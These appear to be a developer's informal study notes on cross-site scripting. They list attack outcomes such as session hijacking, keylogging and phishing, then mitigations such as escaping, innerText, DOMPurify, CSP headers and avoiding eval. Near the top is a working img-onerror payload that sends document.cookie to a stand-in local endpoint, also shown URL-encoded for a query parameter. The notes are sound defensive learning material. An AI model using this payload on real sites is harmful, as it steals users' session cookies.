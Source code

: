 #### XXS

#### [Vulnerabilities]

## User Sesson Hijack
- When we are reading someting from url using search params, a random script can be added to our url in place of name which can execute a sciprt and steal our data.

- Now a days browsers are smart to not allow script tag to be added to url but, there are still hacks that can be done.
- eg <img src=\"does-not-exits\" onerror=\"var img=document.createElement(\'img\') img.src=`http://127.0.0.1:5501/cookie?data=${document.cookie}`; document.querySelector(\'body\').appendChild(img);\">

[encodeURIComponent("<img src=\"does-not-exits\" onerror=\"var img=document.createElement('img') img.src=`http://127.0.0.1:5501/cookie?data=${document.cookie}`; document.querySelector('body').appendChild(img);\">")]

- and pass above to url ?name="malicious script"
- the script executes and reads our cookies which is sensitive data.

## Unauthorized activities
- OR, hacker may execute some function (API) written inside you code with malicious information. As it is your code it will have all authorization and access and will execute successfully

## Capturing keystroke
- Or, Hacker can add script to track all key press events and get all data user is typing, which maybe be sensitive. eg password

## Stealing critical Information
- Hacker can write script to pass entire document.body.innerHTML to some malicious endpoint, whcih may pass critical information along

## phishing attact
- Hacker and insert their own html in DOM which may look very much similar to original, eg a form which takes login credentials

### [Mitigation]

## List all possible ways to take you input

## Use innerText or textContent in place of innerHTML - innerText will be pritext as syntax and not js code or dom element, it will be printed as norml string

## New modal of browser takes care of not executing script inject from url, it will be present but not execute, for older browser we need to handle by using innerText/textContent

## Use escaping mechnaism eg - const sanitizedName - name.replace(/</g, '&lt;').replace(/>/g, '&gt;') this will make any scipt inject to iur system non executable, the inject script will not be taken as dom element on execution but a string

## Using library React, all this sanitization is done behind the scene by React and other libraries for security purpose. This is provided out of the box.

## avaoid dangerouslysetinnerhtml, React allows this but should be avoided as they can be harmful. Use DOMPurify to sanitize your data if necessary.

## Use DOMPurify to sanitize your data DOMPurify.sanitize(name)

## CSP Headers (Content Security Policy Headers) - it can be ser on server, decided what type of resources can be loaded and from where all it can be loaded, to avoid injection form third party. Event handling which script to inject can be handled.

- Decide Allowed Sources
- Script Nonces
- Report only mode, - form where and how many places attackes are being tried

## Avoid using eval - it executes any code indside it, an be harmful